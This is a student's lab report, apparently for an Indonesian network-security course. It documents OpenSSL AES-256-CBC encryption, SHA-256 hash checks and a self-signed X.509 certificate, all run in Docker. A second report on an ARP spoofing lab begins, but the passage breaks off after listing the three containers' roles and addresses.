| Pertemuan | Pertemuan 2 |
| Tugas | Kriptografi |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Image | `uts-openssl` |
| Algoritma Enkripsi | AES-256-CBC |
| Algoritma Hash | SHA-256 |
| Algoritma Kunci Publik | RSA 2048-bit |
| Format Sertifikat | X.509 |
| Common Name (CN) | `k2.uts.local` |

---

# 1. PENDAHULUAN

## 1.1 Latar Belakang

Kriptografi merupakan salah satu aspek penting dalam keamanan informasi dan jaringan komputer. Kriptografi digunakan untuk melindungi informasi agar tidak dapat dibaca atau dimodifikasi oleh pihak yang tidak memiliki hak akses.

Dalam penerapannya, kriptografi memiliki beberapa fungsi utama, yaitu menjaga kerahasiaan data (*confidentiality*), memastikan integritas informasi (*integrity*), serta mendukung autentikasi identitas melalui mekanisme sertifikat digital.

Pada praktikum ini dilakukan pengujian menggunakan OpenSSL melalui lingkungan Docker. Pengujian dibagi menjadi dua bagian utama, yaitu enkripsi simetris menggunakan AES-256-CBC dan pembuatan sertifikat digital X.509 menggunakan algoritma RSA.

Selain proses enkripsi dan dekripsi, dilakukan pula pemeriksaan nilai hash menggunakan SHA-256 untuk membandingkan isi dokumen sebelum dan sesudah proses enkripsi.

Pengujian ini bertujuan untuk memahami bagaimana data dapat dilindungi menggunakan algoritma kriptografi serta bagaimana sertifikat digital digunakan untuk merepresentasikan identitas suatu entitas.

## 1.2 Tujuan Praktikum

Adapun tujuan dari praktikum ini adalah:

1. Memahami konsep dasar kriptografi dan penerapannya dalam keamanan informasi.
2. Memahami mekanisme enkripsi dan dekripsi menggunakan algoritma AES-256-CBC.
3. Mengetahui fungsi password sebagai dasar pembentukan kunci enkripsi.
4. Memahami penggunaan PBKDF2 dalam proses derivasi kunci.
5. Melakukan pemeriksaan integritas data menggunakan SHA-256.
6. Membandingkan nilai hash sebelum dan sesudah proses enkripsi-dekripsi.
7. Membuat pasangan kunci privat dan sertifikat digital menggunakan OpenSSL.
8. Memahami struktur sertifikat digital X.509.
9. Mengidentifikasi informasi Subject, Issuer, dan masa berlaku sertifikat.
10. Memahami perbedaan sertifikat yang diterbitkan oleh Certificate Authority (CA) dengan sertifikat *self-signed*.

## 1.3 Dasar Teori

### A. Kriptografi

Kriptografi merupakan teknik pengamanan informasi dengan mengubah data asli menjadi bentuk yang tidak dapat dibaca secara langsung oleh pihak yang tidak memiliki kunci yang sesuai.

Secara umum, kriptografi memiliki dua proses utama:

- **Enkripsi:** proses mengubah plaintext menjadi ciphertext.
- **Dekripsi:** proses mengembalikan ciphertext menjadi plaintext menggunakan kunci yang sesuai.

Dalam praktikum ini, kriptografi digunakan untuk melindungi isi dokumen melalui algoritma AES-256-CBC.

### B. AES-256-CBC

Advanced Encryption Standard (AES) merupakan algoritma kriptografi simetris yang menggunakan kunci yang sama untuk proses enkripsi dan dekripsi.

AES memiliki tiga ukuran kunci, yaitu 128-bit, 192-bit, dan 256-bit.

Pada praktikum ini digunakan AES-256-CBC, yaitu AES dengan panjang kunci 256-bit dan mode operasi Cipher Block Chaining (CBC).

Mode CBC bekerja dengan menggabungkan setiap blok plaintext dengan ciphertext dari blok sebelumnya sebelum dilakukan proses enkripsi.

Untuk blok pertama, digunakan Initialization Vector (IV) sebagai nilai awal.

Penggunaan IV dan salt membantu menghasilkan proses enkripsi yang menggunakan parameter acak sehingga plaintext yang sama tidak selalu menghasilkan ciphertext yang sama.

### C. PBKDF2

Password-Based Key Derivation Function 2 (PBKDF2) merupakan mekanisme untuk menghasilkan kunci kriptografi dari sebuah password.

PBKDF2 menggunakan proses iterasi untuk meningkatkan biaya komputasi dalam pembentukan kunci.

Pada perintah OpenSSL, opsi `-pbkdf2` digunakan agar password diproses melalui mekanisme derivasi kunci tersebut sebelum digunakan dalam proses enkripsi maupun dekripsi.

### D. SHA-256

Secure Hash Algorithm 256-bit (SHA-256) merupakan algoritma hash kriptografi yang menghasilkan nilai hash sepanjang 256 bit atau 64 karakter hexadecimal.

SHA-256 digunakan untuk menghasilkan sidik digital dari suatu data.

Apabila isi data berubah, nilai hash yang dihasilkan umumnya juga akan berbeda.

Pada praktikum ini, SHA-256 digunakan untuk membandingkan file plaintext sebelum enkripsi dengan file hasil dekripsi.

### E. Sertifikat Digital X.509

X.509 merupakan standar format sertifikat digital yang digunakan dalam infrastruktur kunci publik atau Public Key Infrastructure (PKI).

Sertifikat digital berisi informasi identitas suatu entitas serta kunci publik yang terkait dengan identitas tersebut.

Beberapa informasi penting dalam sertifikat X.509 meliputi:

- Subject: identitas pemilik sertifikat.
- Issuer: pihak yang menerbitkan atau menandatangani sertifikat.
- Validity: masa berlaku sertifikat.
- Public Key: kunci publik yang terdapat dalam sertifikat.
- Signature: tanda tangan digital yang digunakan untuk memverifikasi sertifikat.

Pada praktikum ini dibuat sertifikat *self-signed*, yaitu sertifikat yang ditandatangani menggunakan kunci privat milik pembuat sertifikat itu sendiri.

---

# 2. PERSIAPAN LINGKUNGAN PENGUJIAN

## 2.1 Tools yang Digunakan

Praktikum dilakukan menggunakan Docker Desktop dan Docker Image `uts-openssl`.

Image tersebut menyediakan OpenSSL dan tools pendukung yang dibutuhkan untuk menjalankan proses kriptografi.

| Tools | Fungsi |
|---|---|
| Docker Desktop | Menjalankan lingkungan pengujian berbasis container |
| Windows PowerShell | Menjalankan perintah Docker |
| OpenSSL | Melakukan enkripsi, dekripsi, dan pembuatan sertifikat |
| SHA-256 | Menghasilkan nilai hash untuk pemeriksaan data |
| RSA | Membuat pasangan kunci publik dan privat |
| X.509 | Format sertifikat digital |

## 2.2 File yang Digunakan

Dalam praktikum ini terdapat beberapa file yang dihasilkan melalui proses pengujian.

| Nama File | Fungsi |
|---|---|
| `laporan-k2.txt` | File plaintext sebelum dienkripsi |
| `laporan-k2.enc` | File ciphertext hasil enkripsi |
| `hasil-k2.txt` | File plaintext hasil dekripsi |
| `key-k2.pem` | Kunci privat RSA |
| `cert-k2.pem` | Sertifikat digital X.509 |

Seluruh file tersebut disimpan pada direktori kerja host yang dihubungkan dengan container Docker melalui volume.

## 2.3 Penggunaan Docker Volume

Perintah pengujian menggunakan parameter:

```powershell
-v "${PWD}:/work"
```

Parameter tersebut menghubungkan direktori aktif PowerShell pada komputer host dengan direktori `/work` di dalam container.

Dengan mekanisme ini, file yang dibuat melalui OpenSSL di dalam container dapat disimpan pada direktori proyek di Windows.

Opsi `--rm` digunakan untuk menghapus container setelah proses selesai. Namun, file yang disimpan melalui volume tetap berada pada direktori host.

---

# 3. ENKRIPSI SIMETRIS AES-256-CBC DAN VERIFIKASI SHA-256

## 3.1 Tujuan Pengujian

Pengujian pertama bertujuan untuk menerapkan proses enkripsi dan dekripsi menggunakan algoritma AES-256-CBC.

Selain itu, dilakukan pemeriksaan nilai hash menggunakan SHA-256 untuk memastikan bahwa isi file hasil dekripsi sama dengan file plaintext sebelum dienkripsi.

Dengan demikian, pengujian ini mencakup dua aspek keamanan informasi, yaitu:

1. Kerahasiaan data melalui proses enkripsi.
2. Pemeriksaan kesamaan data melalui perbandingan nilai hash.

## 3.2 Perintah yang Digunakan

Perintah yang dijalankan melalui Windows PowerShell:

```powershell
docker run --rm -u root -w /work -v "${PWD}:/work" uts-openssl sh -c 'echo isi laporan k2 > laporan-k2.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k2.txt -out laporan-k2.enc -pass pass:kunci-k2-2026 && sha256sum laporan-k2.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k2.enc -out hasil-k2.txt -pass pass:kunci-k2-2026 && sha256sum hasil-k2.txt'
```

## 3.3 Penjelasan Perintah

Perintah tersebut merupakan rangkaian proses yang dijalankan secara berurutan menggunakan operator `&&`.

Berikut penjelasan masing-masing bagian:

| Perintah | Fungsi |
|---|---|
| `docker run` | Menjalankan container Docker |
| `--rm` | Menghapus container setelah proses selesai |
| `-u root` | Menjalankan proses menggunakan user root |
| `-w /work` | Menentukan direktori kerja di dalam container |
| `-v "${PWD}:/work"` | Menghubungkan direktori host dengan container |
| `uts-openssl` | Image yang menyediakan OpenSSL |
| `echo isi laporan k2 > laporan-k2.txt` | Membuat file plaintext |
| `openssl enc` | Menjalankan fungsi enkripsi OpenSSL |
| `-aes-256-cbc` | Menggunakan algoritma AES-256 dengan mode CBC |
| `-pbkdf2` | Menggunakan PBKDF2 untuk derivasi kunci |
| `-salt` | Menggunakan salt dalam proses derivasi kunci |
| `-in laporan-k2.txt` | Menentukan file input |
| `-out laporan-k2.enc` | Menentukan file output ciphertext |
| `-pass pass:kunci-k2-2026` | Menentukan password enkripsi |
| `sha256sum` | Menghitung nilai hash SHA-256 |
| `-d` | Mengaktifkan mode dekripsi |

## 3.4 Tahap Pertama: Pembuatan Plaintext

Proses dimulai dengan membuat sebuah file teks menggunakan perintah:

```bash
echo isi laporan k2 > laporan-k2.txt
```

Perintah tersebut menghasilkan file bernama `laporan-k2.txt` dengan isi:

```text
isi laporan k2
```

File ini merupakan plaintext, yaitu data asli yang masih dapat dibaca secara langsung sebelum dilakukan proses enkripsi.

Plaintext tersebut akan digunakan sebagai input dalam proses enkripsi AES-256-CBC.

## 3.5 Tahap Kedua: Proses Enkripsi AES-256-CBC

Setelah file plaintext dibuat, proses berikutnya adalah mengenkripsi file menggunakan OpenSSL.

Perintah enkripsi:

```bash
openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k2.txt -out laporan-k2.enc -pass pass:kunci-k2-2026
```

Pada tahap ini, OpenSSL memproses plaintext menggunakan algoritma AES-256-CBC dengan password:

```text
kunci-k2-2026
```

Password tersebut digunakan sebagai dasar pembentukan kunci melalui PBKDF2.

Opsi `-salt` digunakan untuk menambahkan nilai salt pada proses derivasi kunci.

Setelah proses enkripsi berhasil, akan terbentuk file:

```text
laporan-k2.enc
```

File tersebut merupakan ciphertext, yaitu data yang telah dienkripsi dan tidak lagi menampilkan isi plaintext secara langsung.

Dengan demikian, proses enkripsi berhasil mengubah dokumen asli menjadi bentuk ciphertext.

## 3.6 Tahap Ketiga: Menghitung Hash Plaintext

Sebelum proses dekripsi dilakukan, nilai hash dari file plaintext dihitung menggunakan:

```bash
sha256sum laporan-k2.txt
```

Perintah tersebut menghasilkan nilai hash SHA-256 sebagai representasi digital dari isi file.

Berdasarkan hasil pengujian, diperoleh:

```text
752b81872b283c3c0e6f65245b7f2c508034847a89049dc4312dbb75366a4c23  laporan-k2.txt
```

Nilai tersebut menjadi acuan untuk dibandingkan dengan hash file setelah proses dekripsi.

## 3.7 Tahap Keempat: Proses Dekripsi

Setelah ciphertext berhasil dibuat, dilakukan proses dekripsi untuk mengembalikan data ke bentuk plaintext.

Perintah yang digunakan:

```bash
openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k2.enc -out hasil-k2.txt -pass pass:kunci-k2-2026
```

Penjelasan:

- `-d`: mengaktifkan mode dekripsi.
- `-aes-256-cbc`: menggunakan algoritma AES-256-CBC yang sama.
- `-pbkdf2`: menggunakan mekanisme derivasi kunci yang sama.
- `-in laporan-k2.enc`: menentukan file ciphertext.
- `-out hasil-k2.txt`: menentukan file hasil dekripsi.
- `-pass`: menggunakan password yang sesuai dengan proses enkripsi.

Pada tahap ini, OpenSSL menggunakan password yang sama untuk memperoleh kunci yang diperlukan dalam proses dekripsi.

Apabila password dan parameter yang digunakan sesuai, file ciphertext dapat dikembalikan menjadi plaintext.

Hasil proses dekripsi disimpan dalam file:

```text
hasil-k2.txt
```

## 3.8 Tahap Kelima: Menghitung Hash Hasil Dekripsi

Setelah proses dekripsi berhasil, dilakukan perhitungan hash terhadap file hasil dekripsi menggunakan:

```bash
sha256sum hasil-k2.txt
```

Berdasarkan hasil pengujian, diperoleh:

```text
752b81872b283c3c0e6f65245b7f2c508034847a89049dc4312dbb75366a4c23  hasil-k2.txt
```

## 3.9 Hasil Perbandingan SHA-256

Berikut merupakan perbandingan nilai hash sebelum dan sesudah proses enkripsi-dekripsi.

| Keterangan | File | Nilai SHA-256 |
|---|---|---|
| Sebelum enkripsi | `laporan-k2.txt` | `752b81872b283c3c0e6f65245b7f2c508034847a89049dc4312dbb75366a4c23` |
| Setelah dekripsi | `hasil-k2.txt` | `752b81872b283c3c0e6f65245b7f2c508034847a89049dc4312dbb75366a4c23` |

**Hasil: Kedua hash identik.**

Kedua file menghasilkan nilai hash SHA-256 yang sama.

Hal tersebut menunjukkan bahwa isi file `hasil-k2.txt` sama dengan isi file `laporan-k2.txt` berdasarkan hasil pemeriksaan hash.

Dengan demikian, proses enkripsi dan dekripsi berhasil dilakukan menggunakan password serta parameter yang sesuai.

## 3.10 Analisis Hasil Enkripsi dan Dekripsi

Berdasarkan hasil pengujian, file `laporan-k2.txt` berhasil dienkripsi menjadi `laporan-k2.enc` menggunakan algoritma AES-256-CBC.

Selanjutnya, file ciphertext berhasil didekripsi menggunakan password yang sama sehingga menghasilkan file `hasil-k2.txt`.

Untuk memastikan bahwa proses tersebut mengembalikan data secara benar, dilakukan perbandingan nilai hash SHA-256 terhadap file plaintext awal dan file hasil dekripsi.

Hasil perbandingan menunjukkan bahwa kedua file memiliki nilai hash yang sama, yaitu:

```text
752b81872b283c3c0e6f65245b7f2c508034847a89049dc4312dbb75366a4c23
```

Kesamaan nilai hash tersebut membuktikan bahwa data hasil dekripsi identik dengan data awal berdasarkan pemeriksaan SHA-256.

Perlu diperhatikan bahwa SHA-256 pada pengujian ini digunakan untuk membandingkan kesamaan isi file, bukan sebagai mekanisme autentikasi ciphertext. AES-CBC sendiri tidak menyediakan autentikasi atau pemeriksaan integritas bawaan seperti mode enkripsi terautentikasi AES-GCM.

## 3.11 Dokumentasi Screenshot



**Gambar 1.** Hasil pengujian enkripsi dan dekripsi menggunakan AES-256-CBC. Screenshot memperlihatkan pembuatan file plaintext, proses enkripsi menggunakan password `kunci-k2-2026`, proses dekripsi ciphertext, serta hasil perbandingan SHA-256 antara `laporan-k2.txt` dan `hasil-k2.txt`.

---

# 4. PEMBUATAN DAN PEMERIKSAAN SERTIFIKAT DIGITAL X.509

## 4.1 Tujuan Pengujian

Pengujian kedua bertujuan untuk membuat sertifikat digital menggunakan OpenSSL dengan format X.509.

Sertifikat dibuat menggunakan algoritma RSA dengan panjang kunci 2048-bit.

Pada praktikum ini, sertifikat menggunakan metode *self-signed*, yaitu sertifikat yang ditandatangani menggunakan kunci privat milik pembuat sertifikat itu sendiri.

Selanjutnya, dilakukan pemeriksaan terhadap informasi Subject, Issuer, serta masa berlaku sertifikat.

Pengujian ini bertujuan untuk memahami bagaimana sertifikat digital dibuat dan bagaimana informasi identitas dapat diperiksa melalui OpenSSL.

## 4.2 Perintah yang Digunakan

Perintah yang dijalankan:

```powershell
docker run --rm -u root -w /work -v "${PWD}:/work" uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k2.pem -out cert-k2.pem -days 30 -subj /CN=k2.uts.local && openssl x509 -in cert-k2.pem -noout -subject -issuer -dates'
```

## 4.3 Penjelasan Perintah

Perintah tersebut terdiri dari dua proses utama, yaitu pembuatan sertifikat dan pemeriksaan informasi sertifikat.

| Parameter | Fungsi |
|---|---|
| `openssl req` | Menjalankan perintah untuk membuat permintaan sertifikat atau sertifikat |
| `-x509` | Menghasilkan sertifikat X.509 secara langsung |
| `-newkey rsa:2048` | Membuat pasangan kunci RSA dengan panjang 2048-bit |
| `-nodes` | Tidak mengenkripsi kunci privat menggunakan password |
| `-keyout key-k2.pem` | Menentukan nama file kunci privat |
| `-out cert-k2.pem` | Menentukan nama file sertifikat |
| `-days 30` | Menentukan masa berlaku sertifikat selama 30 hari |
| `-subj /CN=k2.uts.local` | Menentukan identitas Subject sertifikat |
| `openssl x509` | Menjalankan perintah pemeriksaan sertifikat X.509 |
| `-in cert-k2.pem` | Menentukan file sertifikat yang diperiksa |
| `-noout` | Menampilkan informasi tanpa mencetak isi sertifikat dalam format PEM |
| `-subject` | Menampilkan identitas Subject |
| `-issuer` | Menampilkan identitas Issuer |
| `-dates` | Menampilkan masa berlaku sertifikat |

## 4.4 Tahap Pertama: Pembuatan Kunci Privat RSA

Proses dimulai dengan membuat pasangan kunci RSA 2048-bit menggunakan perintah:

```bash
openssl req -x509 -newkey rsa:2048
```

RSA merupakan algoritma kriptografi asimetris yang menggunakan sepasang kunci, yaitu:

- **Public Key:** kunci publik yang dapat dibagikan kepada pihak lain.
- **Private Key:** kunci privat yang harus dijaga kerahasiaannya oleh pemilik.

Pada praktikum ini, OpenSSL membuat pasangan kunci RSA dengan panjang 2048-bit.

Kunci privat kemudian disimpan dalam file:

```text
key-k2.pem
```

Parameter `-nodes` digunakan agar kunci privat tidak dienkripsi menggunakan password tambahan.

Oleh karena itu, file `key-k2.pem` harus disimpan dengan aman dan tidak dibagikan kepada pihak yang tidak memiliki hak akses.

## 4.5 Tahap Kedua: Pembuatan Sertifikat X.509

Setelah pasangan kunci RSA dibuat, OpenSSL menghasilkan sertifikat digital X.509.

Perintah yang digunakan memiliki parameter:

```bash
-x509 -days 30 -subj /CN=k2.uts.local
```

Penjelasan:

- `-x509`: menghasilkan sertifikat X.509 secara langsung.
- `-days 30`: menentukan masa berlaku selama 30 hari.
- `-subj /CN=k2.uts.local`: menentukan Common Name pada identitas sertifikat.

Nilai Common Name (CN) yang digunakan adalah:

```text
k2.uts.local
```

Dengan demikian, sertifikat dibuat menggunakan identitas tersebut.

Hasil pembuatan sertifikat disimpan dalam file:

```text
cert-k2.pem
```

Sertifikat tersebut merupakan sertifikat *self-signed* karena dibuat dan ditandatangani menggunakan kunci privat yang bersesuaian dengan kunci publik di dalam sertifikat.

## 4.6 Tahap Ketiga: Pemeriksaan Sertifikat

Setelah sertifikat berhasil dibuat, dilakukan pemeriksaan menggunakan perintah:

```bash
openssl x509 -in cert-k2.pem -noout -subject -issuer -dates
```

Perintah tersebut digunakan untuk menampilkan informasi penting yang terdapat di dalam sertifikat.

Informasi yang diperiksa meliputi:

1. Subject.
2. Issuer.
3. notBefore.
4. notAfter.

Hasil pemeriksaan dapat digunakan untuk mengetahui identitas sertifikat dan periode masa berlakunya.

## 4.7 Hasil Pemeriksaan Sertifikat

Berdasarkan hasil pengujian, diperoleh output:

```text
subject=CN=k2.uts.local
issuer=CN=k2.uts.local
notBefore=Nov 22 12:56:12 2026 GMT
notAfter=Dec 22 12:56:12 2026 GMT
```

Berikut merupakan rincian hasil pemeriksaan:

| Parameter | Hasil |
|---|---|
| Subject | `CN=k2.uts.local` |
| Issuer | `CN=k2.uts.local` |
| notBefore | Nov 22 12:56:12 2026 GMT |
| notAfter | Dec 22 12:56:12 2026 GMT |
| Algoritma Kunci | RSA |
| Panjang Kunci | 2048-bit |
| Masa Berlaku | 30 hari |

## 4.8 Analisis Subject dan Issuer

**Subject** merupakan informasi identitas entitas yang memiliki sertifikat digital.

Pada hasil pengujian, Subject memiliki nilai:

```text
subject=CN=k2.uts.local
```

Nilai tersebut menunjukkan bahwa Common Name yang digunakan dalam sertifikat adalah `k2.uts.local`.

Sementara itu, **Issuer** merupakan identitas pihak yang menerbitkan atau menandatangani sertifikat.

Hasil pemeriksaan menunjukkan:

```text
issuer=CN=k2.uts.local
```

Subject dan Issuer memiliki nilai yang sama.

Hal tersebut terjadi karena sertifikat dibuat menggunakan metode *self-signed*, yaitu sertifikat ditandatangani oleh pemilik kunci privat yang bersesuaian dengan sertifikat itu sendiri.

Dengan demikian, tidak terdapat Certificate Authority (CA) eksternal yang menerbitkan sertifikat tersebut.

## 4.9 Analisis Masa Berlaku Sertifikat

Berdasarkan hasil pemeriksaan, sertifikat memiliki informasi masa berlaku:

```text
notBefore=Nov 22 12:56:12 2026 GMT
notAfter=Dec 22 12:56:12 2026 GMT
```

Keterangan:

- `notBefore`: tanggal dan waktu mulai berlakunya sertifikat.
- `notAfter`: tanggal dan waktu berakhirnya masa berlaku sertifikat.

Sertifikat mulai berlaku pada 22 November 2026 pukul 12:56:12 GMT dan berakhir pada 22 Desember 2026 pukul 12:56:12 GMT.

Dengan demikian, masa berlaku sertifikat sesuai dengan parameter `-days 30` yang digunakan saat proses pembuatan.

## 4.10 Analisis Hasil Pembuatan Sertifikat

Berdasarkan hasil pengujian, OpenSSL berhasil menghasilkan pasangan kunci RSA 2048-bit dan sertifikat digital X.509.

Sertifikat menggunakan Common Name `k2.uts.local` sebagai identitas.

Hasil pemeriksaan menunjukkan bahwa nilai Subject dan Issuer sama-sama menggunakan identitas tersebut.

Kesamaan nilai tersebut menunjukkan bahwa sertifikat dibuat menggunakan metode *self-signed*.

Selain itu, masa berlaku sertifikat berhasil ditetapkan selama 30 hari, yaitu dari 22 November 2026 sampai 22 Desember 2026.

Pengujian ini memperlihatkan bahwa OpenSSL dapat digunakan untuk membuat sertifikat digital secara mandiri tanpa harus memperoleh sertifikat dari CA eksternal.

Namun, sertifikat *self-signed* tidak otomatis dipercaya oleh sistem atau browser lain. Kepercayaan terhadap sertifikat tersebut harus diberikan secara manual melalui mekanisme yang sesuai.

## 4.11 Dokumentasi Screenshot



**Gambar 2.** Hasil pembuatan sertifikat digital X.509 menggunakan OpenSSL dengan algoritma RSA 2048-bit. Screenshot memperlihatkan proses pembuatan kunci privat dan sertifikat, serta hasil pemeriksaan Subject, Issuer, dan masa berlaku sertifikat.

---

# 5. ANALISIS KESELURUHAN PRAKTIKUM

## 5.1 Rekapitulasi Hasil Pengujian

Berdasarkan seluruh tahapan yang telah dilakukan, diperoleh rangkuman sebagai berikut:

| No. | Pengujian | Hasil |
|---|---|---|
| 1 | Pembuatan file plaintext | Berhasil |
| 2 | Enkripsi AES-256-CBC | Berhasil |
| 3 | Pembuatan ciphertext | Berhasil |
| 4 | Perhitungan SHA-256 plaintext | Berhasil |
| 5 | Dekripsi ciphertext | Berhasil |
| 6 | Perhitungan SHA-256 hasil dekripsi | Berhasil |
| 7 | Perbandingan hash | Identik |
| 8 | Pembuatan kunci privat RSA 2048-bit | Berhasil |
| 9 | Pembuatan sertifikat X.509 | Berhasil |
| 10 | Pemeriksaan Subject dan Issuer | Berhasil |
| 11 | Pemeriksaan masa berlaku sertifikat | Berhasil |

## 5.2 Perbandingan Dua Pengujian Kriptografi

Praktikum ini terdiri dari dua pengujian dengan tujuan keamanan yang berbeda.

| Aspek | Enkripsi AES-256-CBC | Sertifikat X.509 |
|---|---|---|
| Jenis Kriptografi | Simetris | Asimetris |
| Algoritma | AES-256-CBC | RSA 2048-bit |
| Fungsi Utama | Melindungi kerahasiaan data | Merepresentasikan identitas dan kunci publik |
| Kunci | Menggunakan kunci yang sama untuk enkripsi dan dekripsi | Menggunakan pasangan kunci publik dan privat |
| Hasil | File ciphertext dan plaintext hasil dekripsi | Kunci privat dan sertifikat digital |
| Pemeriksaan | Perbandingan hash SHA-256 | Subject, Issuer, dan masa berlaku |

## 5.3 Analisis Keseluruhan

Berdasarkan hasil praktikum, kedua proses kriptografi berhasil dijalankan menggunakan OpenSSL.

Pada pengujian pertama, algoritma AES-256-CBC digunakan untuk mengenkripsi dokumen plaintext menjadi ciphertext.

Selanjutnya, ciphertext berhasil dikembalikan menjadi plaintext melalui proses dekripsi menggunakan password yang sama.

Keberhasilan proses tersebut diperiksa menggunakan SHA-256. Hasilnya menunjukkan bahwa hash file sebelum dan sesudah proses dekripsi memiliki nilai yang identik.

Pada pengujian kedua, OpenSSL berhasil membuat pasangan kunci RSA 2048-bit dan sertifikat digital X.509 dengan identitas `k2.uts.local`.

Pemeriksaan sertifikat menunjukkan bahwa Subject dan Issuer memiliki nilai yang sama karena sertifikat dibuat menggunakan metode *self-signed*.

Selain itu, masa berlaku sertifikat berhasil ditetapkan selama 30 hari sesuai dengan parameter yang digunakan.

Kedua pengujian tersebut memperlihatkan penerapan konsep kriptografi simetris dan asimetris dalam keamanan informasi.

AES digunakan untuk melindungi kerahasiaan dokumen, sedangkan RSA dan sertifikat X.509 digunakan untuk mendukung mekanisme identitas digital dan infrastruktur kunci publik.

---

# 6. KESIMPULAN

Berdasarkan pelaksanaan Tugas 2 (Pertemuan 2) mengenai Kriptografi pada Kasus 2 (`k2`), dapat disimpulkan bahwa seluruh tahapan pengujian berhasil dilaksanakan menggunakan OpenSSL di dalam lingkungan Docker.

Pada pengujian pertama, proses enkripsi dan dekripsi berhasil dilakukan menggunakan algoritma AES-256-CBC dengan password `kunci-k2-2026`.

File plaintext `laporan-k2.txt` berhasil dienkripsi menjadi `laporan-k2.enc`, kemudian didekripsi kembali menjadi `hasil-k2.txt`.

Hasil pemeriksaan SHA-256 menunjukkan bahwa kedua file plaintext memiliki nilai hash yang sama, yaitu:

`752b81872b283c3c0e6f65245b7f2c508034847a89049dc4312dbb75366a4c23`

Kesamaan nilai hash tersebut membuktikan bahwa isi file hasil dekripsi sama dengan isi file asli berdasarkan pemeriksaan SHA-256.

Pada pengujian kedua, pembuatan pasangan kunci RSA 2048-bit dan sertifikat digital X.509 berhasil dilakukan.

Sertifikat menggunakan identitas `CN=k2.uts.local` dan dibuat menggunakan metode *self-signed*.

Hasil pemeriksaan menunjukkan bahwa Subject dan Issuer memiliki nilai yang sama, yaitu `CN=k2.uts.local`.

Sertifikat juga memiliki masa berlaku selama 30 hari, mulai dari 22 November 2026 hingga 22 Desember 2026.

Melalui praktikum ini, dapat dipahami bahwa algoritma AES-256-CBC dapat digunakan untuk melindungi kerahasiaan dokumen, sedangkan RSA dan sertifikat X.509 berperan dalam penerapan kriptografi asimetris serta pengelolaan identitas digital.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai penerapan enkripsi simetris, proses dekripsi, pemeriksaan kesamaan data menggunakan SHA-256, serta pembuatan dan pemeriksaan sertifikat digital menggunakan OpenSSL.

---

# 7. LAMPIRAN DAN DOKUMENTASI

## 7.1 Daftar File Hasil Pengujian

| No. | Nama File | Keterangan |
|---|---|---|
| 1 | `laporan-k2.txt` | File plaintext asli |
| 2 | `laporan-k2.enc` | File ciphertext hasil enkripsi |
| 3 | `hasil-k2.txt` | File hasil dekripsi |
| 4 | `key-k2.pem` | Kunci privat RSA 2048-bit |
| 5 | `cert-k2.pem` | Sertifikat digital X.509 |

**Catatan keamanan:** File `key-k2.pem` merupakan kunci privat dan harus dijaga kerahasiaannya. Jangan mengunggah atau membagikan kunci privat tersebut secara publik.

## 7.2 Daftar Screenshot

| No. | Nama Screenshot | Keterangan |
|---|---|---|
| 1 | `01.png` | Bukti enkripsi AES-256-CBC, dekripsi, dan perbandingan hash SHA-256 |
| 2 | `02.png` | Bukti pembuatan sertifikat X.509 dan pemeriksaan Subject, Issuer, serta masa berlaku |

## 7.3 Dokumentasi Keseluruhan

### A. Enkripsi dan Dekripsi AES-256-CBC


**Gambar 1.** Proses enkripsi dan dekripsi dokumen menggunakan AES-256-CBC serta pemeriksaan kesamaan file melalui SHA-256.

### B. Pembuatan Sertifikat Digital X.509


**Gambar 2.** Proses pembuatan sertifikat digital menggunakan RSA 2048-bit dan pemeriksaan informasi Subject, Issuer, serta masa berlaku sertifikat.

---

<!-- Dokumentasi lengkap Tugas 3; sumber: tugas3/hasil.md -->

# TUGAS 3 (PERTEMUAN 3)
# ARP SPOOFING — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER LAB

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 3 |
| Tugas | ARP Spoofing |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Virtualisasi Container | Docker Desktop |
| Docker Image | `uts-kali-tools` |
| Nama Jaringan Docker | `lab-arp-k2` |

### Topologi dan Identitas Perangkat

Pada praktikum ini digunakan tiga container Docker yang memiliki peran berbeda, yaitu perangkat korban (*victim*), gateway, dan penyerang (*attacker*). Ketiga container dihubungkan ke dalam satu jaringan Docker agar dapat saling berkomunikasi dan digunakan untuk melakukan simulasi serangan ARP Spoofing.

Berikut merupakan informasi alamat IP dan MAC Address masing-masing perangkat yang digunakan dalam pengujian.

| Perangkat | Container | IP Address | MAC Address |
|---|---|---|---|
| Korban | `korban-k2` | `172.18.0.2` | - |
| Gateway | `gateway-k2` | `172.18.0.3` | `5e:dd:0e:72:bb:0e` |
| Penyerang | `penyerang-k2` | `172.18.0.4` | `76:3a:9a:78:2e:7e` |

**Keterangan:**
- **Korban (`korban-k2`)** merupakan perangkat yang menjadi target simulasi serangan ARP Spoofing. Tabel ARP pada perangkat ini diamati untuk mengetahui perubahan pemetaan alamat IP ke MAC Address.
- **Gateway (`gateway-k2`)** merupakan perangkat yang alamat IP dan MAC Address-nya menjadi objek pemalsuan dalam simulasi.
- **Penyerang (`penyerang-k2`)** merupakan perangkat yang menjalankan utilitas `arpspoof` untuk mengirimkan paket ARP palsu kepada korban.

---

# 1. PEMBUATAN JARINGAN DOCKER DAN KONFIGURASI CONTAINER

## 1.1 Tujuan

